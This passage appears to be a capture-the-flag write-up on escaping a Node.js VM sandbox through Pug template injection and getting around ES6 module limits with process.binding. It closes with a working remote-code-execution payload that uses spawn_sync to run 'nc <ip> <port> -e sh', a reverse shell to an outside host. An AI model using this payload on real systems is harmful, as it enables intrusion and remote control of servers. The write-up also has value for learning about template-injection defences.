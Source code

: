 **The Problem:** VM sandboxing in Node.js is notoriously weak and can be easily escaped, especially when combined with template engines like Pug that allow code execution.

### Phase 2: Pug Template Injection

Pug templates support embedded JavaScript execution, which makes them dangerous when processing user input:

```pug
h1 #{javascript_code_here}
```

### Phase 3: ES6 Module Limitations

The application uses ES6 modules (`import`), which means the traditional `require()` function is not available in the global scope, making direct RCE through `require('child_process')` impossible.

Additionally, common VM escape techniques that rely on accessing `require` through `process.mainModule.constructor._load` or similar module loading mechanisms are also not viable in this ES6 module environment, as the module system works differently and these legacy CommonJS patterns are not accessible.

### Phase 4: Process Binding Exploitation

The solution involves using `process.binding()` to access Node.js native bindings, bypassing the ES6 module restrictions.

## Exploitation Strategy

### Step 1: VM Sandbox Escape via Process Access

The VM sandbox can be escaped by accessing the global `process` object through Pug template injection:

```pug
h1 #{global.process}
```

This reveals that we have access to the Node.js process object and its methods.

### Step 2: Bypass ES6 Module Restrictions

Since `require()` is not available in ES6 modules, we use `process.binding()` to access native Node.js bindings:

```javascript
process.binding("spawn_sync"); // For command execution
process.binding("fs"); // For file system access
```

### Step 3: Remote Code Execution Payload

The exploit payload uses `spawn_sync` binding to execute system commands:

```pug
h4 #{global.process.binding('spawn_sync').spawn({
  file: '/bin/bash',
  args: ['/bin/bash', '-c', 'nc <ip> <port> -e sh'],
  stdio: [
    {type:'pipe',readable:!0,writable:!1},
    {type:'pipe',readable:!1,writable:!0},
    {type:'pipe',readable:!1,writable:!0}
  ]
}).output[1].toString()}
```
